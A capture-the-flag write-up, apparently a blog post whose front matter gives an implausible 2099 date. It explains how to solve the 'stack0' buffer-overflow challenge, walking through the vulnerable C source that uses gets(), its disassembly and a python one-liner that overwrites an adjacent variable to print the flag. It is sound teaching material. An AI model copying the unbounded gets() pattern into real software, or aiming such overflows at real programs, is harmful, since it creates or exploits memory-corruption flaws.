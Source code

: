 ```yaml
---
title:  "Writeup: stack0"
date:   2099-03-26 09:00:00
categories: writeup
layout: post
author: Tim Winters
---
```


The problem is this challenge is a simple one. `modified` is set to `0`, yet is checked on line 15 to be something else. A standard buffer overflow.


```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  FILE *fp;

  modified = 0;
  gets(buffer);
  fp  = fopen("./flag.txt", "r");

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
      fgets(buffer, 64, (FILE*)fp);
      printf("flag: %s\n", buffer );
  } else {
      printf("Try again?\n");
  }
}
```

The vulnerability is with `gets`, which reads input from standard in, but does no bounds checking. We can use this to write past the memory region allocated to `buffer`, and overwrite the value of `modified`. To determine how many bytes we need to write we must look at this disassembly code. 

<pre>
   0x080484eb <+0>:		lea    ecx,[esp+0x4]
   0x080484ef <+4>:		and    esp,0xfffffff0
   0x080484f2 <+7>:		push   DWORD PTR [ecx-0x4]
   0x080484f5 <+10>:	push   ebp
   0x080484f6 <+11>:	mov    ebp,esp
   0x080484f8 <+13>:	push   ecx
   0x080484f9 <+14>:	sub    esp,0x54
   0x080484fc <+17>:	mov    DWORD PTR [ebp-0x10],0x0
   0x08048503 <+24>:	sub    esp,0xc
   <font color="red">0x08048506 <+27>:	  lea    eax,[ebp-0x50]</font>
   0x08048509 <+30>:	push   eax
   0x0804850a <+31>:	call   0x8048390 &ltgets@plt&gt
</pre>

Calling conventions for Intel x86 say that any arguments will be pushed on the stack. Before the call to `gets` at `main + 31`, the address `epb-0x50` is loaded into `eax` and then pushed onto the stack. Therefore we know that `buffer` starts at address `ebp-0x50`, but I'll use `0x50` for the rest of this guide. 

Now that we know where the buffer is, we need the address of `modified`. Examining the assembly code further

<pre>
   0x0804850f <+36>:	add    esp,0x10
   0x08048512 <+39>:	sub    esp,0x8
   0x08048515 <+42>:	push   0x8048610
   0x0804851a <+47>:	push   0x8048612
   0x0804851f <+52>:	call   0x80483d0 <fopen@plt>
   0x08048524 <+57>:	add    esp,0x10
   0x08048527 <+60>:	mov    DWORD PTR [ebp-0xc],eax
   <font color="red">0x0804852a <+63>:	  mov    eax,DWORD PTR [ebp-0x10]</font>
   0x0804852d <+66>:	test   eax,eax
   0x0804852f <+68>:	je     0x804856b <main+128>
</pre>

Here we see that `ebp - 0x10` (`0x10`) is put into `eax`, then checked to see if it is non-zero through the `test` instruction. More info on that [here](https://reverseengineering.stackexchange.com/questions/19235/purpose-of-test-eax-eax-after-a-strcmp). This must be our `modified` variable. 

Some quick math of `0x50 - 0x10` = `0x40` = `64`. Therefore, we need 64 bytes of data before we start overwriting the `modified` variable. Becaue it need only be non-zero, just writing one byte will work. 

```
> python -c 'print "a"*65' | ./stack0

you have change the 'modified' variable
flag: 3ecc94ee2ad17bf3a32757d1900948bc
```
